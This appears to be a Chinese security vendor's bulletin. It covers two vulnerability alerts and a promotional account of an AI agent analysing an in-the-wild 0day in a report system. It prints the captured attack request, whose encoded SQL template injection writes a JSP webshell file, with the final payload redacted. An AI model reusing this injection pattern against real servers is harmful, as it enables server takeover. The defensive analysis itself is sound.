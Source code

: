 #  【7/24特辑，就2个！】恒脑协助在野漏洞分析显神威   
安恒研究院  安恒信息CERT   2024-07-24 20:31  
  
<table><tbody style="max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><tr style="max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><td colspan="2" rowspan="1" width="100.0000%" style="overflow-wrap: break-word !important;word-break: break-all;hyphens: auto;border-width: 0px 0px 2px;border-style: solid;border-color: rgb(62, 62, 62) rgb(62, 62, 62) rgb(13, 80, 199);max-width: 100% !important;box-sizing: border-box;"><section style="margin:5px 0px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><section style="padding:0px 5px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;text-align:center;font-size:17px;color:rgb(13, 80, 201);margin-bottom:unset;"><p><strong style="max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;">漏洞导览</strong></p></section></section></td></tr><tr style="max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><td colspan="2" rowspan="1" width="100.0000%" style="overflow-wrap: break-word !important;word-break: break-all;hyphens: auto;border-width: 0px 0px 1px;border-style: solid;border-color: rgb(221, 221, 221) rgb(221, 221, 221) rgb(160, 160, 160);max-width: 100% !important;box-sizing: border-box;"><section style="margin:5px 0px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><section style="padding:0px 5px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;text-align:left;font-size:14px;margin-bottom:unset;"><p style="text-align:center;"><span style="font-size:15px;">· 浪潮GS云财务系统存在反序列化漏洞</span></p></section></section></td></tr><tr style="max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><td colspan="2" rowspan="1" width="100.0000%" style="overflow-wrap: break-word !important;word-break: break-all;hyphens: auto;border-width: 0px 0px 1px;border-style: solid;border-color: rgb(221, 221, 221) rgb(221, 221, 221) rgb(160, 160, 160);max-width: 100% !important;box-sizing: border-box;"><section style="margin:5px 0px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;"><section style="padding:0px 5px;max-width:100% !important;box-sizing:border-box;overflow-wrap:break-word !important;text-align:left;font-size:14px;margin-bottom:unset;"><p style="text-align:center;"><span style="font-size:15px;">· 统信畅写office存在任意文件读取漏洞</span></p></section></section></td></tr></tbody></table>  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/JAzzLj4nXeuWiatf8UKibcCacJte7CCB7UHOzVxJrciaG4WcE9MicjjwxuZ8LWenpIYh7XNqjN9KHfZMW2lE9qtpAg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
**漏洞概况**  
  
  
在当前网络攻防演练中，安恒信息CERT正紧密关注近期曝光的安全漏洞，持续进行监测和深入梳理。我们将对监测到的每一个漏洞进行深入分析和评估，为蓝队（防守方）输出漏洞清单。这份清单旨在帮助蓝队在攻防演练期间进行自检，并采取必要的措施来强化防护。  
  
**1、浪潮GS云财务系统存在反序列化漏洞（安恒CERT编号：WM-202407-000015）**  
  
**漏洞详情：**攻击者可以通过构造特定的序列化数据来触发恶意代码的执行，在服务器上执行任意代码。  
  
**产品支持情况**：  
  
AiLPHA大数据平台、APT攻击预警平台、明鉴漏洞扫描系统、WAF、玄武盾已支持  
  
**2、统信畅写office存在任意文件读取漏洞（安恒CERT编号：WM-202407-000017）**  
  
**漏洞详情：**攻击者可以通过构造特定的请求来读取服务器上的任意文件内容，从而获取敏感数据。  
  
**产品支持情况**：  
  
AiLPHA大数据平台、APT攻击预警平台、明鉴漏洞扫描系统、WAF、玄武盾已支持  
  
  
**恒脑x漏洞分析**  
  
  
攻防演练正在如火如荼地进行着。所有参与者们紧张而专注，仿佛整个战场都笼罩在紧张的氛围中。突然间，前方传来了一则关键情报：似乎已经捕获到了某个系统的高危漏洞！这个消息迅速传遍演练现场，激起了一阵骚动和好奇。  
  
漏洞的样本迅速被传送到了安恒研究院，专家们开始了紧张而密集的分析工作。经过一番深入研究后，他们的猜测得到了证实：**这是一个**  
**在野0day漏洞。**  
  
那么，这个漏洞是如何被捕获到的呢？接下来，让我们一起来揭开这个谜团的真相。  
  
**事件回溯**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JAzzLj4nXeuWiatf8UKibcCacJte7CCB7UASym0gIt1IBto3A1oaYSqxA7qUvVnN3uTpVVqTpVJ9J07icr0OnO5zw/640?wx_fmt=png&from=appmsg "")  
  
  
  
当日，一线同事突然发现了异常的攻击流量，经过  
**恒脑x态感平台**  
的检索，  
现有的规则无法完全匹配到这种流量的信息，确定这是外部攻击者利用web漏洞展开的攻击。  
  
面对这一情况，一线同事迅速采取行动，立即提取了相关的攻击流量，并借助  
**恒脑智能体**  
进行进一步深入的分析和评估。  
  
这些流量的细节如下：  
  
**请求报文**  
```
GET /webroot/decision/xxxx/xxxxxxServer?test=<超长字符串>&n=<混淆代码>${__fr_locale__=sql('FRDemo',DECODE('%ef%bb%bf%61%74%74%61%63%68%0c%64%61%74%61%62%61%73%65%20%27%2e%2e%2f%77%65%62%61%70%70%73%2f%77%65%62%72%6f%6f%74%2f%70%77%6e%2e%6a%73%70%27%20%61%73%20%27%74%31%36%32%36%35%39%34%27%3b'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('%ef%bb%bf%63%72%65%61%74%65%0C%74%61%62%6C%65%20%74%31%36%32%36%35%39%34%2E%74%74%28%64%61%74%61%7A%20%74%65%78%74%29%3B'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('<混淆代码>'),1,1)} HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Connection: close
Cache-Control: max-age=0
```  
  
**响应报文**  
```
HTTP/1.1 302 
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: object-src 'self'
Cache-Control: no-cache
Pragma: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Location: /webroot/decision/xxxx/xxxxxxServer?test=<超长字符串>&n=truetruetrue
Content-Length: 0
Date: Tue, 23 Jul 2024 07:54:02 GMT
Connection: close
```  
  
可以观察  
到，该请求包利用了超长字符填充尝试绕过WAF，并且包含了一段经过混淆的payload。现在的  
问题是，  
**恒脑智能体**  
是否能够成功解析出其中的内容？  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JAzzLj4nXeuWiatf8UKibcCacJte7CCB7Up8hhUNQHBELh0aXYTtje37g5KDdRlR23O4KLiaK07p5rQkrzglaM7HA/640?wx_fmt=png&from=appmsg "")  
  
**恒脑智能体**  
通过分点论述的方法清晰地解释了问题，并提供了临时的漏洞解决方案。随后，通过  
**恒脑x策**  
**略库**快速检索了该漏洞的利用情况，结果显示这是一个未知的web漏洞。  
  
面对这一发现，一线同事立刻将漏洞信息上传至云端，交由安恒研究院进一步深入分析。最终确认，该漏洞是影响国产某知名报表系统的在野0day漏洞，并迅速制定了产品漏洞解决方案，以便快速响应。  
  
  
在实际的攻防场景中，恒脑通过持续采集前端流量，并结合24小时不间断的自动分析和实时矫偏技术，能够及时发现并响应漏洞威胁，从而确保网络安全高效运转。无论是面对传统漏洞还是全新的未知威胁，恒脑展现出了卓越的应变能力和防御效果。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JAzzLj4nXeuWiatf8UKibcCacJte7CCB7UyKrVPicRRZ7biau6eJ57oDhOwPJaBlKvUULFq2B5DiaGtakxu0sRkbzyg/640?wx_fmt=png&from=appmsg "")  
  
**关于我们**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/JAzzLj4nXeuWiatf8UKibcCacJte7CCB7UyKrVPicRRZ7biau6eJ57oDhOwPJaBlKvUULFq2B5DiaGtakxu0sRkbzyg/640?wx_fmt=png&from=appmsg "")  
  
  
安恒信息应急响应中心（CERT）是专注于对全网重要网络安全漏洞、安全事件等威胁情报进行实时主动发现、快速预警、联动响应的安全应急协调中心。  
  
中心成员由丰富攻防经验的资深安全技术专家组成，联动安恒威胁情报中心，共同针对最新威胁情报主动发现，重大安全漏洞和安全事件进行深度挖掘、分析、溯源，并结合自主研发的网络空间测绘系统-「全球网络空间超级雷达」梳理全网受影响程度。  
  
第一时间通过多渠道对客户进行安全预警通知，并向国家有关部门通报，同时在有关部门的指导下，对影响面极广的漏洞对外发布安全预警和应急措施建议，为安全中国，营造健康、安全的数字化经济环境助力。  
  
**如有漏洞相关需求支持请联系400-6059-110获取相关能力支撑**  
  
